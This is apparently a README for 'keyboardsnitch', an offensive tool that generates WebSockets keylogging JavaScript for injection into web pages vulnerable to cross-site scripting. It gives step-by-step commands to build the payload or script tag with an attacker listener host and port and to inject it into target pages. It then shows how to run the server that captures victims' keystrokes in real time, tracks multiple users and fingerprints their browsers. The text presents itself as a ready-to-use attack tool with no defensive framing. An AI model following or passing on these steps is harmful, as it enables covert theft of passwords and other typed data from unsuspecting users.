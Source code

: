 #keyboardsnitch

An easy to use __WebSockets__ keylogger for exploiting XSS vulnerabilities. Fast, reliable, and deadly accurate.

#Key Features

- Easily generate keylogging Javascript code to inject into web apps vulnerable to XSS
- Easily generate script tags linking to keylogging Javascript code to inject into web apps vulnerable to XSS. Easily host keylogger without additional middleware such as __nginx__ or __apache__.
- Smart realtime keylogging shows you exactly where the user is typing at any given moment
- Smart realtime keylogging shows you the exact contents of every text field that the user is viewing at any given moment
- Fully grepable output
- Able to distinguish between keystrokes coming from multiple users and web apps
- Capable of fingerprinting users' browsers
- Interactive Mode included

#Setup

Dependencies can be installed by running:

	pip install -r pip.req

#Usage Instructions

##Step 1 - Inject link to WebSockets source into target page

Run __keyboardsnitch__ with the --ws-source flag to generate a link to the __WebSockets__ source code. 

	python keyboardsnitch.py --ws-source

Copy the script tag into your clipboard and inject into the vulnerable web page. Depending on the nature of the XSS vulnerability you are exploiting, you may have to modify this script tag.

##Step 2 - Inject keylogger into target page

__keyboardsnitch__ provides two methods of injecting its keylogging JavaScript code. You can choose to inject the keylogging JavaScript code directly into the target page, or you can inject a script tag that links to the JavaScript code hosted externally.

###Option 1 - Inject Raw Source Code

To generate a keylogger that can be injected directly into the target page, use the following command:

	python keyboardsnitch.py --inject-code --lhost <your ip address or fqdn here> --lport <the port on which to listen for data from the keylogger>

__keyboardsnitch__ will automatically modify the keylogger's source code to include your ip/domain and port number.

Example:
	
	python keyboardsnitch.py --inject-code --lhost 123.123.123.1 --lport 80

###Option 2 - Inject Script Tag

Should you want to inject a script tag instead of raw source code, __keyboardsnitch__ makes it easy to do that too. __keyboardsnitch__ can serve the keylogger as a JavaScript file without any additional configuration.

To generate a script tag linking to the keylogger, use the following command:

	python keyboardsnitch.py --inject-tag --lhost <your ip address or fqdn here> --lport <the port on which to listen for data from the keylogger>

As with the __WebSockets__ script tag, the generated script tag may require additional configuration or modification.

Example:

	python keyboardsnitch.py --inject-tag --lhost 123.123.123.1 --lport 80


##Step 3 - Run Server and Log Keystrokes

Once the keylogger has been injected into the target web page, we start __keyboardsnitch__'s server component to start logging keystrokes.

	python keyboardsnitch.py --lhost <your ip address or fqdn here> --lport <the port on which to listen for data from the keylogger>

When a user begins typing into a text field on the target web page, the contents of that text field will be shown in real time. Additionally, information about the text field is displayed so that you can identify what is being typed where.


###Addtional Display Options - Quick Reference

If you are targeting a page visited by multiple users, use this command:

	python keyboardsnitch.py --lhost <your ip address or fqdn here> --lport <the port on which to listen for data from the keylogger> --clients

If you are injecting the keylogger into multiple pages, use this command:

	python keyboardsnitch.py --lhost <your ip address or fqdn here> --lport <the port on which to listen for data from the keylogger> --hosts

If you are injecting the keylogger into multiple pages and expect those pages to be visited by multiple users, use this command:

	python keyboardsnitch.py --lhost <your ip address or fqdn here> --lport <the port on which to listen for data from the keylogger> --clients --hosts

If you want information about users' web browsers, use the --user-agents flag along with whatever other flags you choose to include:

	python keyboardsnitch.py --lhost <your ip address or fqdn here> --lport <the port on which to listen for data from the keylogger> --clients --hosts --user-agents

#Interactive Mode

You can also run __keyboardsnitch__ in Interactive Mode by using the --wizard flag:

	python keyboardsnitch.py --wizard

Interactive Mode will walk you through steps 1, 2, 3 shown above.
